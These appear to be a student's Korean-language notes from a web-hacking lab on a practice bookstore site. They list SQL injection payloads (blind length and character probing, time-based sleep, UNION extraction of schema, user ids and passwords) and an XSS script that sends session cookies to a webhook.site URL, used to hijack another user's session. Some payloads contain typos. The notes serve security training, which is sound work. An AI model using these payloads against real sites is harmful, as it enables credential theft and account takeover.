

# 2024.07.12

## 웹 해킹 실습

### 

' substr()


#### Blind SQL Injection
참/거짓 반응이 웹에서 판단하기 어렵다면?   
Blind SQL Injection(Time Sleep)   
```' union select ascii(subvstr(database(),1,1))>0 and sleep(3) -- - ```

```
[length]
' or length(database())>1 -- -
' or length(database())>10 -- -
' or length(database())==9 -- -

[Database Name]
' or subsdtr(database(),1,1)='a' -- -
' or subsdtr(database(),1,1)='b' -- -
' or ascii(subsdtr(database(),1,1))=97 -- -
' or ascii(subsdtr(database(),1,1))=98 -- -
```

#### 
데이터베이스 유저, 시스템 유저, 버전, 경로 확인   
화면에 띄우기    
```' union select 1, user(), 3, system_user(), @@datadir, @@version, 7, 8, 9, 10, 11, 12, 13, 14 -- -```


' union select 1, table_name collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from information_schema.tables -- -   


' union select 1, table_name collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from information_schema.tables where table_schema = 'bookstore' -- -    


' union select 1, column_name collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from information_schema.columns where table_name = 'members' -- - 


' union select 1, column_name collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from information_schema.columns where table_name = 'cart' -- - 

' union select 1, column_name collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from information_schema.columns where table_name = 'free' -- - 

' union select 1, column_name collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from information_schema.columns where table_name = 'products' -- - 

' union select 1, column_name collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from information_schema.columns where table_name = 'cart' -- - 


' union select 1, id collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from free -- - 
anikita


' union select 1, pass collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from members -- - 

' union select 1, id collate utf8_general_ci, 3, level collate utf8_general_ci, pass collate utf8_general_ci, num collate utf8_general_ci, 7, 8, 9, 10, 11, 12, 13, 14 from members -- - 
suyash

' union select 1, num collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from members -- - 

' union select 1, pass collate utf8_general_ci, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14 from members -- - 


' union select 1, id collate utf8_general_ci, 3, level collate utf8_general_ci, pass collate utf8_general_ci, num collate utf8_general_ci, 7, 8, 9, 10, 11, 12, 13, 14 from members -- -    


---
### 로그인
```
ankita' and 1=1 -- -   
비밀번호가 틀립니다

ankita' and 1<1 -- -   
등록되지 않은 아이디입니다

ankita' or id="admin" and length()pass

ankita' or id="admin" and length(pass)>1 -- - 

ankita' or id="ankita" and length(pass)=1 -- -

ankita' or id="ankita" and length(pass)>1 -- -    
비밀번호가 틀립니다

ankita' or id="ankita" and length(pass)>1 -- -    
등록되지 않은 아이디입니다

ankita' or id="ankita" and ascii(substr(pass,1,1)>1 -- -    

```
--   
python requests - request.post(url, data=data).text


## XSS
악의적인 스크립트로 공격하여 원하는 정보를 취득하거나 공격을 가할 수 있는 해킹 기법

https://webhook.site


Your unique URL 로 들어오게 만드는 것

```
https://webhook.site/265d884f-bc4a-473f-8ae6-e61b2d5bd4f5

<script>document.location="https://webhook.site/265d884f-bc4a-473f-8ae6-e61b2d5bd4f5?"+document.cookie;</script>
```
글 작성   


누군가 들어온다면   
PHPSESSID 값이 생긴다


123 아이디 로그인 중   


Cookie 확장 프로그램에 세션값을 넣고 체크를 누르면


다른 사람 아이디로 들어가있는 것을 확인할 수 있다


---

## XSS 종류
```
<script>alert(6)</script>

</script>


테스트 내용: 

테스트 내용: 


